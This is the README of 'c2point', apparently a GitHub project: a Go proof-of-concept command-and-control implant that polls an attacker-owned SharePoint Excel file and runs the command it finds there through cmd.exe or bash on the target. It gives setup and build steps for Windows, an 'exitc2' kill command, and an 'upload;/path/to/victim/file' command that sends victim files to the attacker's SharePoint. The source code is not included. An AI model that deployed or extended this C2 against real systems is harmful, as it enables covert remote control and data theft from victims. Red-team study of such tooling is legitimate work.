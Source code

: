 # c2point
c2point - Proof of Concept of a c2 structure in Go that uses Attacker-owned Azure Tenant (Sharepoint) as Command and Control.
This is a very simple project that aims to make the "agent" execute commands on target server from instructions written into an Online Excel file.

The agent will poll the attacker-owned SharePoint site, to retrieve the command into an Excel file and execute it.

Command result will be communicated to SharePoint via another excel file (Result)

## Workflow

![image](https://github.com/giovannicolonna/c2point/assets/10105061/f0f2fbac-4fe9-45fa-bccc-d02c33d9712d)


## Prerequisites
Global Admin on an Azure Tenant (if you have a lab, give it a try, set up your Developer Account in Microsoft to try O365 for free)


## Install Go: 
If you haven't already, download and install Go from the official website: https://golang.org/dl/. Follow the installation instructions for your operating system.

## Install dependencies: 
The program depends on several third-party packages, which can be installed using the following command:


```

go get github.com/koltyakov/gosip
go get github.com/koltyakov/gosip/api
go get github.com/koltyakov/gosip/auth/azurecert
go get github.com/tealeg/xlsx/v3

```



## Configure authentication: 

The program works with the support of a valid Azure Tenant with Sharepoint Online (Business subscription). According to Microsoft Documentation, set up your Azure environment to accept App-only access to an Azure app. You will need to register a new AAD Application and grant it to access SharePoint Online. 

Create a new Azure app and set up grants and certificate access as follows:

https://learn.microsoft.com/en-us/sharepoint/dev/solution-guidance/security-apponly-azuread

Replace the placeholder values in the private.json files

**Note that Cert Auth is the only Auth currently working with SharePoint online**

Here is an example of how to initialize private.json with the necessary fields for SharePoint Online authentication using Cert Auth as specified in GoSip Documentation (in this link you'll find script to generate self-signed cert): https://go.spflow.com/auth/strategies/azure-certificate-auth

```

{
	"siteUrl": "https://your-site.sharepoint.com/sites/your-site-name",
	"tenantId": "your-tenantid",
	"clientId": "your-clientid",
	"certPath": "cert.pfx",
	"certPass": "password"
}

```
Make sure to replace the placeholders (tenant-id, clientId, certPath and certPass) with the actual values for your SharePoint environment.
**Create a 'config' folder in same directory of your .go file and put inside it the private.json and the .pfx cert file**


## Update file path
  Update the file paths into the source code (see commented lines)
  
## Create your c2 file
  Create a new excel file on your sharepoint site that will act as c2 panel, update accordingly the variables in the code by pointing to right excel file (default name is yourcommand.xlsx)
  
**Commands must be inserted in the very first cell 0,0**

## Compile and run the program:
  Open a terminal or command prompt and navigate to the directory containing the c2point.go file. Run the following commands to compile and execute the program:

```

go build c2point.go
./c2point

```

If you're on Windows, the compiled executable will be named c2point.exe. In that case, run the following command instead:

```
GOOS=windows GOARCH=amd64 go build -o ./bin/c2point.exe c2point.go 

c2point.exe
```
## Usage

The program will read the instructions from the 0,0 Cell in Excel file and execute them as command-line commands on your machine. On Windows, the commands will be executed using the cmd.exe shell, while on Unix-based systems they will be executed using the /bin/bash shell.

**Only the first cell must be filled with the command at this time (further improvements will be possible :) )**

Note that - for now - cert.pfx file and private.json must be in same folder of the executable.

Insert command 

```
exitc2

```

in online excel c2 file order to remotely stop the agent.

## Data Exfiltration

Insert command:

```

upload;/path/to/victim/file

```

in order to upload files from target sytems:

![image](https://github.com/giovannicolonna/c2point/assets/10105061/79105667-0b9a-450a-b929-cbb66ab9d02d)



## Output
Check your Sharepoint site. A file (default: output.xlsx) will contain the output of your command.

**Note that a 15 seconds delay has been hardcoded in order to let the online docs be aligned **

## Further improvements
Many, this is a sort of experiment, nothing more than a PoC:
1) Avoid double excel and try to have all the commands history in one file
2) modify code in order to not have .pfx and .json in same folder of executable (embedded Auth in GOSip throws errors)
3) Usage of Graph API (Go support is still too much in early stage as per May 2023)
4) Download of files from Attacker-Owned Sharepoint Site to target system

**Pull request as you like***

## Disclaimer 
This is a PoC, and the creator is not responsible for any illicit use of this. Please use it responsibly.


